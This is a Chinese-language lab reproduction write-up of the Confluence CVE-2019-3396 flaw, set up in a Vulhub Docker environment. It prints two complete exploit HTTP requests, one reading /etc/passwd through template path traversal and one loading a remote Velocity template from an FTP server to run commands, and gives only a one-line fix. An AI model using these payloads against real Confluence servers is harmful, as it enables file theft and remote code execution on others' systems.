




# Confluence 未授权导致RCE漏洞(CVE-2019-3396) 

## 0x01 漏洞描述

*漏洞介绍*

Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

*影响版本*

6.6.12之前所有6.6.x版本，6.12.3之前所有6.12.x版本，6.13.13之前所有6.13.x版本，6.14.2之前所有6.14.x版本。

## 0x01 搭建漏洞环境


利用[Vulhub](https://github.com/vulhub/vulhub)里的`confluence/CVE-2019-3396`的weblogic版本作为漏洞环境，启动命令为：
```
docker-compose up -d
```
等待一段时间，访问`http://8090:7001/`安装引导，选择“Trial installation”，之后会要求填写license key。点击“Get an evaluation license”，去Atlassian官方申请一个Confluence Server的测试证书（不要选择Data Center和Addons）：



然后点击Next安装即可。

如果提示填写cluster node，路径填写`/home/confluence`即可。然后填入数据库账号密码，选择`postgres`数据库，地址为db，账号密码均为`postgres`：



搭建完成。


## 0x02 漏洞复现

### 文件读取

发送数据包

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.10.128:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent:Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Referer:http://192.168.10.128:8090/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type:application/json; charset=utf-8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh-HK;q=0.6,zh-TW;q=0.5
Cookie: JSESSIONID=C06C1362ADBA16FF4BCBD5069A1461A6
Connection: close
Content-Length: 178


{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```



去访问发现成功读取`/etc/passwd`信息


### RCE

是通过模板注入（SSTI）来执行任意命令，我们首先要先将[cmd.vm](https://github.com/zhengjim/loophole/tree/master/CVE-2019-3396/cmd.vm)上传至我们的FTP服务器上。



然后发送数据包：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.10.128:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent:Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Referer:http://192.168.10.128:8090/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type:application/json; charset=utf-8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh-HK;q=0.6,zh-TW;q=0.5
Cookie: JSESSIONID=C06C1362ADBA16FF4BCBD5069A1461A6
Connection: close
Content-Length: 222


{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"http://www.dailymotion.com/video/xcpa64","width":"300","height":"200","_template":"ftp://xx.xxx.xxx.xx/cmd.vm","cmd":"ifconfig"}}}
```

复现成功

## 漏洞修复

官方已修复该漏洞，请升级到无漏洞版：https://www.atlassian.com/

## 参考文献

1. https://github.com/Yt1g3r/CVE-2019-3396_EXP
2. https://www.freebuf.com/column/200320.html
3. https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396
